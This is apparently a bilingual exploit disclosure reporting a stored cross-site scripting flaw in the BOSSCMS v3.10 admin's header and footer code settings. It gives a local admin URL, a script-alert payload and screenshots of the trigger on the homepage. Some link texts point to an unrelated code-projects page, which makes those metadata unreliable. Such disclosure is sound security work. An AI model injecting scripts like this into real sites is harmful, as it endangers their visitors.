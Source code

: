 # BOSSCMSv3.10 background project management--code configuration--stored XSS exists in the header code and bottom code
- **Exploit Title:** BOSSCMS background project management--code configuration--stored XSS exists in the header code and bottom code
- **Date:** 2024-04-01
- **Exploit Author:** shuo sheng,jixin zhang
- **Vendor Homepage:** [https://code-projects.org/simple-school-management-in-php-with-source-code/](https://gitee.com/Greenpeas/BOSSCMS)
- **Software Link:** [https://download.code-projects.org/details/d10e92aa-e37f-46fd-9bf8-45878956d7c0](https://gitee.com/Greenpeas/BOSSCMS/archive/refs/tags/V3.1202310281625.zip)
- **Version:** Bosscms v3.10

# BOSSCMS后台项目管理--代码配置--头部代码和底部代码存在存储型XSS

url:http://127.0.0.1/bosscms1/admin/#mpf=site/code

payload:

```html
<script>alert(1)</script>
```

![图片](https://github.com/ss122-0ss/BOSSCMS/assets/131983607/cae2cb2c-a48b-4678-833c-10c7eb4a4f8b)



Return to homepage, trigger XSS

返回首页，触发XSS

![图片](https://github.com/ss122-0ss/BOSSCMS/assets/131983607/1e227c98-897d-46c2-963a-99e59fca4681)
